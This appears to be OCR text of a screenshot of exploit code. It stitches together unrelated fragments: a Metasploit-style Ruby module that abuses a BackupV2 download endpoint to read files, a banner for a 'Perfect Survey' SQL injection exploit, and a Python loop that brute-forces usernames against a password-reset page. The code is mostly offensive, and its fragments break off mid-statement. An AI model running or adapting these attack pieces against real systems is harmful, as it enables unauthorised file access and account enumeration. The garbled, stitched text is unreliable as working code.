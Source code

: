 if res.code != 200
  fail_with(Failure::Unknown, res.body)
end

if res.headers['Content-Type'] == 'application/json'
  json_res = res.get_json_document

  if json_res['success']
    print_good json_res['success']
    return
  end

  fail_with(Failure::Unknown, res.body)
end

fail_with(Failure::BadConfig, 'Either the file cannot be read or the file does not exist.')
referer = ''
if !datastore['VHOST'].nil? && !datastore['VHOST'].empty?
  referer = "http#{datastore['SSL'] ? 's' : ''}://#{datastore['VHOST']}/"
else
  referer = full_uri
end

res = send_request_cgi({
  'method' => 'GET',
  'uri' => normalize_uri(target_uri.path, 'api', 'BackupV2', 'download'),
  'vars_get' => {
    'filename' => filename
  },
  'headers' => {
    'Referer' => referer
  }
})

if res.nil?
  fail_with(Failure::Unreachable, 'Download request failed.')
end

if res.code != 200
  fail_with(Failure::Unknown, res.body)
end

if res.headers['Content-Type'] == 'application/json'
  json_res = res.get_json_document

  if json_res['error']
    fail_with(Failure::Unknown, json_res['error'])
    return
  end
end

print_status res.body
  fail_with(Failure::BadConfig, warning)
end

try_login
try_upload
try_download
                            [+] Perfect Survey - SQL Injection
                            [@] Developed by Ron Jost (Hacker5preme)
with open ("users.txt", "r") as f:
    usernames = f.readlines()
    print (f"[+] Brute forcing ....")
    for users in usernames:
        url = "http://<redacted>/$pwd_reset.do?sysparm_url=ss_default"
        headers1 = {
            "Host": "<redacted>",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0",